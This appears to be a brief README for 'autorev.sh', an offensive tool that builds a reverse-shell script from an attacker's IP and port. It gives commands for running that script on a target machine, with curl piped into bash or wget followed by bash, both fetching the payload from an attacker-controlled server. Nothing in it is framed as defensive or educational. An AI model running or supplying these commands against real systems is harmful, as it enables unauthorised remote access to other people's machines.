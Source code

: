 # autorev.sh  
## Generating Usage  
```
python3 autorev.py -i <your-ip> -p <your-port>
```
## Using It On Target  
### Curl  
```
curl <your-temp-server-ip>/autorev.sh | bash
```
### Wget  
```
wget <your-temp-server-ip>/autorev.sh -O /tmp/autorev.sh && bash /tmp/autorev.sh
```
